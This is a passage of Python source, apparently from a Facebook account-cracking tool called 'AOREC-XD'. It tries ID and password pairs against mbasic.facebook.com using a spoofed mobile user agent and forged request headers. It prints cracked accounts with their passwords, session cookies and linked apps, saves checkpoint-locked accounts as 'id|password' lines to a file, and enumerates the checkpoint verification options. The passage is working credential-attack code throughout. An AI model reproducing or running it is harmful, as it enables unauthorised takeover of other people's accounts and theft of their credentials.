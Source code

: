 					apkaktif=re.findall('</i><div class=".*?"><span class=".*?">(.*?)</span><div></div><div class=".*?">(.*?)</div></div>',str(cek))
					nok=1
					for muncul in apkaktif:
						infoakun+= (f"[bold cyan][{nok}] {muncul[0]} {muncul[1]}[/bold cyan]\n")
						nok+=1

					hit=0
					infoakun += (f"\n[bold yellow][â€¢] LIST EXPIRED APPLICATIONS :[/bold yellow]\n")
					apkexp=re.findall('</i><div class=".*?"><span class=".*?">(.*?)</span><div></div><div class=".*?">(.*?)</div></div>',str(cek2))
					hit=0
					for muncul in apkexp:
						hit+=1
						infoakun += (f"[bold yellow][{hit}] {muncul[0]} {muncul[1]}[/bold yellow]\n")
					print('\n')
					statusok = f'[bold green][â€¢] ID       : {idf}\n[â€¢] PASSWORD : {pw}\n[â€¢] COOKIES  : {kuki}[/bold green]\n{infoakun}'
					statusok1 = nel(statusok, style='green')
					cetak(nel(statusok1, title='[bold green]AOREC-XD OK[/bold green]'))
					ok+=1
					break
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
#--------------------[ CHECK-OPSI-CHEKPOINT ]-------------------#
def ceker(idf,pw):
	global cp
	ua = 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.128 Safari/537.36 FBMF/HUAWEI;FBBD/HUAWEI;FBPN/com.facebook.services;FBDV/EVR-L29;FBSV/10;FBLR/0;FBBK/1;FBCA/arm64-v8a:;]'
	head = {"Host": "mbasic.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": "https://mbasic.facebook.com","content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}
	ses = requests.Session()
	try:
		hi = ses.get('https://mbasic.facebook.com')
		ho = sop(ses.post('https://mbasic.facebook.com/login.php', data={'email':idf,'pass':pw,'login':'submit'}, headers=head, allow_redirects=True).text,'html.parser')
		jo = ho.find('form')
		data = {}
		lion = ['nh','jazoest','fb_dtsg','submit[Continue]','checkpoint_data']
		for anj in jo('input'):
			if anj.get('name') in lion:
				data.update({anj.get('name'):anj.get('value')})
		kent = sop(ses.post('https://mbasic.facebook.com'+str(jo['action']), data=data, headers=head).text,'html.parser')
		print('\r%s++++ %s|%s ----> CP       %s'%(b,idf,pw,x))
		open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
		cp+=1
		opsi = kent.find_all('option')
		if len(opsi)==0:
			print('\r%s---> Tap Yes / A2F (Cek Login Di Lite/Mbasic%s)'%(hh,x))
		else:
			for opsii in opsi:
				print('\r%s---> %s%s'%(kk,opsii.text,x))
	except Exception as c:
		print('\r%s++++ %s|%s ----> CP       %s'%(b,idf,pw,x))
